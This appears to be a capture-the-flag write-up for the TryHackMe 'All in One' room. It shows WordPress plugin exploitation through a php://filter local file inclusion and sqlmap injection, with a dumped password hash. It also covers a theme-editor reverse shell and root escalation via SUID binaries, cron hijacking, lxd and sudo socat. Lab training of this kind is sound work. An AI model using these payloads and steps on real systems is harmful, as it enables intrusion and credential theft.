

# [All in One](https://tryhackme.com/room/allinonemj)

## Initial Recon

First as always, `nmap`

```
# Nmap 7.91 scan initiated Tue Jul 20 03:03:29 2021 as: nmap -vvv -p 21,22,80 -sCV -oN init.nmap 10.10.59.198
Nmap scan report for box.ip (10.10.59.198)
Host is up, received syn-ack (0.28s latency).
Scanned at 2021-07-20 03:03:30 UTC for 22s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.22.62
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLcG2O5LS7paG07xeOB/4E66h0/DIMR/keWMhbTxlA2cfzaDhYknqxCDdYBc9V3+K7iwduXT9jTFTX0C3NIKsVVYcsLxz6eFX3kUyZjnzxxaURPekEQ0BejITQuJRUz9hghT8IjAnQSTPeA+qBIB7AB+bCD39dgyta5laQcrlo0vebY70Y7FMODJlx4YGgnLce6j+PQjE8dz4oiDmrmBd/BBa9FxLj1bGobjB4CX323sEaXLj9XWkSKbc/49zGX7rhLWcUcy23gHwEHVfPdjkCGPr6oiYj5u6OamBuV/A6hFamq27+hQNh8GgiXSgdgGn/8IZFHZQrnh14WmO8xXW5
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Ww9ui4NQDHA5l+lumRpLsAXHYNk4lkghej9obWBlOwnV+tIDw4mgmuO1C3U/WXRgn0GrESAnMpi1DSxy8t1k=
|   256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAOG6ExdDNH+xAyzd4w1G4E9sCfiiooQhmebQX6nIcH/
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 20 03:03:52 2021 -- 1 IP address (1 host up) scanned in 22.55 seconds
```

We have anonymous FTP so let's check that out.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 06  2020 .
drwxr-xr-x    2 0        115          4096 Oct 06  2020 ..
226 Directory send OK.

ftp> put test
200 PORT command successful. Consider using PASV.
553 Could not create file.
```

There's nothing in there, and we can't upload to it. Checking out the web service on port 80, it's just the Apache default page. With nothing to go off of, let's run `gobuster` on it.

```
gobuster dir -u 'http://box.ip/' -w /path/to/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 100 -r -d -o dir

/wordpress            (Status: 200) [Size: 28310]
/hackathons           (Status: 200) [Size: 197]
[snip]
```

## WordPress Exploits

Since we have a WordPress page, let's run `wpscan` on it.

```sh
wpscan --url 'http://box.ip/wordpress/' -o wpscan -t 100 -e ap,at,tt,cb,dbe,u1-10,m1-10 --plugins-detection mixed
```

`wpscan` gives us a few interesting details:

- WordPress version 5.5.1, marked as vulnerable
- Directory listing at `/wordpress/wp-content/uploads/`
- A username: elyana
- 3 plugins foundf; akismet v4.1.6, mail-masta v1.0, reflex-gallery v3.1.7

I ran `searchsploit` on the 3 plugins and only `mail-masta` got results compatible with the installed version.

```sh
$ searchsploit mail masta
 ------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
WordPress Plugin Mail Masta 1.0 - Local File Inclusion                  | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - SQL Injection                         | php/webapps/41438.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

### Local File Inclusion

First we'll check out `php/webapps/40290.txt`. The plugin directory from the wpscan result is `/wp-content/plugins/mail-masta/` and we can use one of the vulnerable files from `php/webapps/40290.txt` (I'm using `/inc/campaign/count_of_send.php`) to do Local File Inclusion.

```
http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

The above query gives us `/etc/passed` so we've confirmed LFI works. Let's look for credentials in configuration files. For WordPress, we'll grab the file `wp-config.php` at `/wp-config` with the payload `../../../../../wp-config.php`

```
http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=../../../../../wp-config.php
```

This query returns nothing. We can try base64-encoding the file with the payload `php://filter/convert.base64-encode/resource=../../../../../wp-config.php`

```
http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

With this, we can decode the exfiltrated file and get credentials

```php
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', '********' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

### SQL Injection

Let's know check out `php/webapps/41438.txt`. According to the exploit, we exploit the page `/wp-content/plugins/mail-masta/inc/lists/csvexport.php` using the parameter `list_id` so let's have `sqlmap` test it for us.

```sh
$ sqlmap -u "http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0&pl=/var/www/html/wordpress/wp-load.php" -p list_id --tables
[snip]
Database: wordpress
[23 tables]
+---------------------------------------+
| wp_commentmeta                        |
| wp_comments                           |
| wp_links                              |
| wp_masta_campaign                     |
| wp_masta_cronapi                      |
| wp_masta_list                         |
| wp_masta_reports                      |
| wp_masta_responder                    |
| wp_masta_responder_reports            |
| wp_masta_settings                     |
| wp_masta_subscribers                  |
| wp_masta_support                      |
| wp_options                            |
| wp_postmeta                           |
| wp_posts                              |
| wp_reflex_gallery                     |
| wp_reflex_gallery_images              |
| wp_term_relationships                 |
| wp_term_taxonomy                      |
| wp_termmeta                           |
| wp_terms                              |
| wp_usermeta                           |
| wp_users                              |
+---------------------------------------+

$ sqlmap -u "http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0&pl=/var/www/html/wordpress/wp-load.php" -p list_id --dbms mysql -T wp_users --dump
Database: wordpress
Table: wp_users
[1 entry]
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url                       | user_pass                          | user_email    | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://192.168.8.110/wordpress | $P$BhwVLVLk5fGRPyoEfmBfVs82bY7fSq1 | none@none.com | elyana     | 0           | elyana       | elyana        | 2020-10-05 19:55:50 | <blank>             |
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```

With the dumped password hash, we can attempt to crack it (some rules required) to get credentials to log into WordPress.

### WordPress Administrator RCE

After logging into WordPress, we can edit themes so let's edit a PHP file of a theme (I'm doing theme twentynineteen since it's inactive, file `404.php` so it's `/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen`) to run a reverse shell.



After editing the file, set up a listener and navigate to the file (in my case `/wp-content/themes/twentynineteen/404.php`) to get a reverse shell.

## Privilege Escalation

With a shell as `www-data`, the first thing I do is run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) which returns a few interesting things:

- There's a cron job running `/var/backups/script.sh` as `root` every minute
- There are several unusual SUID binaries: `/bin/chmod`, `/usr/bin/socat`, `/bin/bash`

### SUID binaries

For each of the aforementioned SUID binaries, we can get a root shell by doing the following:

- Use `chmod` to give another file an SUID bit or change permission
- Follow [GTFObins instructions] to get a root shell
- `/bin/bash -p` to get a root shell

### Hijack cron job script

Since we have a cron job running `/var/backups/script.sh` as root every minute, we can get a shell by putting in it a reverse shell a listening for said shell and get a root shell.

### Going through elyana

Going back a bit, we see a hint for the user elyana in `/home/elyana/hint.txt`

```sh
bash-4.4$ ls /home/elyana/
hint.txt  user.txt

bash-4.4$ cat /home/elyana/hint.txt
Elyana's user password is hidden in the system. Find it ;)
```

Looking back at our linpeas result, we can see a password in the file `/etc/mysql/conf.d/private.txt` for the user elyana.

```sh
bash-4.4$ cat /etc/mysql/conf.d/private.txt
user: elyana
password: ********

bash-4.4$ su elyana
Password:

bash-4.4$ id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)
```

We see that the user elyana is a member of the group `lxd`. We can exploit this to mount the whole file system at `/` and have root permission to all the file. I have a writeup using this for the room [Gaming Server](https://github.com/ChocolateOverflow/tryhackme-writeups/tree/master/gamingserver), or you can try it yourself with [this hacktricks page](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation).

Additionally, running `sudo -l` shows us that we can run `/usr/bin/socat` as root which, again, can be used to get a reverse shell following [this GTFObins page].

## Hackathons (not done)

Going to `/hackathons` and viewing its source, we see an interesting comment at the bottom

```html
<!-- Dvc W@iyur@123 -->
```

Looks like possible credentials so let make note of it and run `gobuster` on the page.
